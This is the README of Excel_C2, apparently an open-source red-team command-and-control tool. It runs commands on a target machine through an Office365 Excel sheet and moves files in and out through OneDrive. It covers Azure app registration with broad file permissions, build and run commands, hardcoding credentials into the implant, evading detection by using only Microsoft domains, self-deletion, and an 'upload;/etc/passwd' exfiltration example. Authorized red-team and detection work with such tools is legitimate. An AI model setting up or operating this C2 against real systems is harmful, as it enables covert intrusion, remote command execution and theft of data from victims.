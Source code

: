 # Excel_C2

Excel_C2 (Excel Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using an Office365 Excel sheet and exfiltrates data OneDrive.

## Why

This program has been developed in order to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Microsoft's domains to make detection more difficult.

## Requirements

- Azure AD login with permissions to:
  - Register Application
    - Apply Delegated and Application permissions for Files.ReadWrite.All
  - Grant admin consent confirmation
- O365 Subscription

## Set up

1. **Register an Azure Portal App**
    1. Log into the [Azure Active Directory Admin center](https://aad.portal.azure.com/) with a Global Administrator Account.
    2. Expand **Azure Active Directory** on the left navigation panel
    3. Expand **Applications**
    4. Select **App registrations** \
      ![App registrations](img/aad-portal-app-registrations.png)
    5. Click the  **New Registration** button \
      ![New registration](img/new-registration.png)
    6. Enter a name for your new app, select "Accounts in this organizational directory only (MSFT only - Single Tenant)", and click the **Register** button \
      ![New application](img/new-application.png)
    7. On the application page, note the **Application (client) ID** and **Directory (tenant) ID** values.  They will be used for `clientId` and `tenantId` respectively. \
      ![App IDs](img/app-ids.png)
    8. Click **API permissions** \
      ![API permissions](img/api-perms.png)
    9. Click the **Add a permission** button \
      ![Add permission](img/add-perm-button.png)
    10. Click the **Microsoft Graph** button \
      ![Add MS Graph](img/add-graph-perm.png)
    11. Click the **Application permissions** button \
      ![Application Permissions](img/app-perm.png)
    12. Type "files" to filter the permissions.  Then expand the **Files** option and check the box next to "Files.ReadWriteAll" and click the **Add permissions** button \
      ![File Permissions](img/files-perm.png)
    13. Add the same "Files.ReadWrite.All" under the **Delegated permissions** area
    14. Back on the "API permissions" page, click the **Grant admin consent for MSFT** button and **Yes** in the banner \
      ![Grant Consent](img/grant-consent.png)
    15. In the naviation menu, select **Certificates & secrets** and click the **New client secret** button \
      ![New Secret](img/new-secret.png)
    16. Enter a description and click the **Add** button \
      ![Add Secret](img/add-secret.png)
    17. Copy the "Value" field of your newly created secret.  This will not be displayed again once you leave this page.  This will be used for the `clientSecret` field \
      ![Copy Secret](img/copy-secret.png)

1. **Create the Excel Spreadsheet**

    1. Login with the same account to [OneDrive](https://onedrive.live.com)
    2. Click on the arrow next to the **New** button and select **Excel workbook** \
      ![New Workbook](img/new-excel.png)
    3. You need the ID for the onedrive as well as the ID for the new sheet you've created.  Lucikly Microsft makes it as difficult as possible to find that information.  I was able to get it using Postman.  Follow the guide at [https://learn.microsoft.com/en-us/graph/use-postman](https://learn.microsoft.com/en-us/graph/use-postman) to setup Postman
        > NOTE: you've already completed Step3 by following this README
    4. Once Postman is configured and you're able to authenticate successfully, find the **Get my files** API call and run that \
      ![Get My Files](img/get-my-files.png)
    5. In the response Body, search for the name of your newly created spreadsheet.  In that same JSON block, there will also be an "id" key.  Copy that value for `sheetId`
    6. Also in that same JSON block, there is a "parentReference" key.  Inside that value, there is a "driveId" key.  Copy that value for `driveId` \
      ![Drive IDs](img/drive-ids.png)

1. **Build executable**

    ```bash
    git clone https://github.com/grantok/Excel-C2
    cd Excel-C2
    go build excel-c2.go
    ```

1. **Start the C2**

    ```none
    excel-c2 --tenant <tenantId> --client <clientId> --secret <clientSecret> --drive <driveId> --sheet <sheetId> --verbos <true|false>
    ```

   > Note: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go)

### Features

- Command execution using Office365 Excel Sheet as a console
- Download files on the target using Microsfot OneDrive
- Upload files (data exfiltration) using Microsft OneDrive
- Exit

#### Command execution

The program will perform a request to the spreedsheet every 30 sec (by default) to check for new commands.
Enter the command in column **A** and the output will be added to column **B**

#### Upload File

The "upload" command will upload a file from the target machine to OneDrive.  The syntax is:

 ```none
upload;<remote path>
 ```

Example:

 ```none
upload;/etc/passwd
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Download File

The "download" command will download a file from OneDrive to the target machine.  The syntax is:

 ```none
download;<OneDrive file name>;<remote path>
 ```

Example:

 ```none
download;down.txt;/home/user/downloaded.txt
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

> NOTE: From *os* documentation:
> *If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

### WorkFlow

![Workflow](img/workflow.png)

### Demo

![Demo](img/demo.gif)

### Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

### Inspired from

[https://github.com/looCiprian/GC2-sheet](https://github.com/looCiprian/GC2-sheet)

### Support the project

Pull request
